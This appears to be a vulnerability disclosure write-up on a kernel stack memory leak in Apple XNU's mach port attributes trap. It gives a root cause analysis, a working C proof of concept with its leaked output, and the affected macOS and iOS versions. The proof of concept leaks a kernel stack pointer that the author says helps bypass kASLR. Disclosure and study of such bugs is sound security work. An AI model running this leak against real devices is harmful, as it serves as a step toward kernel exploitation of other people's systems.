 ```yaml
---
layout: default
author: juwei lin
date: 2019-02-02 10:16:00 +0800
---
```


# Apple XNU Stack Memroy Leak [INTERNAL]

## Overview
This is a kernel stack memory leak issue. This issue exists in function `_kernelrpc_mach_port_get_attributes_trap`.  

## Root Cause Analysis
In function `_kernelrpc_mach_port_get_attributes_trap`:  
```
int
_kernelrpc_mach_port_get_attributes_trap(struct _kernelrpc_mach_port_get_attributes_args *args)
{
    ...

    typeof(MACH_PORT_INFO_OUT[0]) info[max_count];  ---(1.a)

    ...

    rv = mach_port_get_attributes(task->itk_space, args->name, args->flavor, info, &count);
	if (rv == KERN_SUCCESS)
		rv = copyout(&count, CAST_USER_ADDR_T(args->count), sizeof(count));
	if (rv == KERN_SUCCESS && count > 0)
		rv = copyout(info, CAST_USER_ADDR_T(args->info), count * sizeof(info[0]));  ---(1.b)


}
```
At location 1.a, info is a local variable without initialization, max_count here is 17. At location 1.b, info is copied out back to user supplied buffer with size count * sizeof(info[0]).  

The issue here is that the value of `count` here can be 17 but `info` is just 11 count filled leaving the rest 6 count info entry leaked. Let's see the cause in function `mach_port_get_attributes`:   

```
kern_return_t
mach_port_get_attributes(
	ipc_space_t		space,
	mach_port_name_t	name,
	int			flavor,
        mach_port_info_t	info,
        mach_msg_type_number_t	*count)
{
    ...

    case MACH_PORT_INFO_EXT: {
		mach_port_info_ext_t *mp_info = (mach_port_info_ext_t *)info;   ---(2.a)
		if (*count < MACH_PORT_INFO_EXT_COUNT)
			return KERN_FAILURE;
			
		if (!MACH_PORT_VALID(name))
			return KERN_INVALID_RIGHT;
		
		kr = ipc_port_translate_receive(space, name, &port);
		if (kr != KERN_SUCCESS)
			return kr;
		/* port is locked and active */
		mach_port_get_status_helper(port, &mp_info->mpie_status);   ---(2.b)
		mp_info->mpie_boost_cnt = port->ip_impcount;    ---(2.c)
		*count = MACH_PORT_INFO_EXT_COUNT;  ---(2.d)
		ip_unlock(port);
		break;
	}

    ...
}
```

At 2.a, info is casted to structure `mach_port_info_ext_t`:  
```
typedef struct mach_port_info_ext {
	mach_port_status_t	mpie_status;
	mach_port_msgcount_t	mpie_boost_cnt;
	uint32_t		reserved[6];
} mach_port_info_ext_t;
```
At 2.b and 2.c, mpie_status and mpie_boost_cnt is set, at 2.d, count is set to MACH_PORT_INFO_EXT_COUNT(17). 17 here means 17 * sizeof(info[0]) bytes of info will be copyout back to user buffer, but mpie_status and mpie_boost_cnt total size is only 11 * sizeof(info[0]), it leaks the rest 6 count to user space.  
  
The leaked 6 count value includes an ebp register value. See the output of poc:  
```
kr: 0x0 count:17
i:0 0
i:1 0
i:2 1
i:3 5
i:4 0
i:5 0
i:6 1
i:7 0
i:8 0
i:9 0
i:10 0
i:11 ffffff80
i:12 28
i:13 0
i:14 25fb34e8
i:15 ffffff80
i:16 2a933ef0
```
The 15th and 16th value combination is always the current stack ebp value. Here is 0xffffff802a933ef0.  
If attacker can read (0xffffff802a933ef0+8) which is the function return address, it can defeat kASLR.  

## PoC Code
```
#include <iostream>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <mach/mach_port.h>
#include <mach/mach_init.h>
#include <mach/mach.h>
#include <mach/mach_vm.h>
#include <mach/mach_traps.h>
#include <mach/mach_interface.h>


void poc() {
    int port_info[17]={0};
    mach_msg_type_number_t count = 17;
    mach_port_name_t port;
    kern_return_t kr;
    
    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);
    mach_port_insert_right(mach_task_self(), port, port, MACH_MSG_TYPE_MAKE_SEND);
    
    kr = mach_port_get_attributes(mach_task_self(),port,7,port_info, &count);
    printf("kr: 0x%x count:%d\n", kr, count);
    
    for (int i=0; i<17; i++) {
        printf("i:%d %x\n", i, port_info[i]);
    }
    
}


int main(int argc, const char * argv[]) {
    poc();
    return 0;
}

```

## Q & A

### How did you find this vulnerability?
by code audit.

### Can you identify exploitability?
This is a **stack memory leak** vulnerability. It can help bypass kASLR.

### Can you identify root cause?
Yes, see the root cause analysis.

### Vulnerable software and hardware
macOS 10.14.3 and all before
iOS 12.1.3 and all before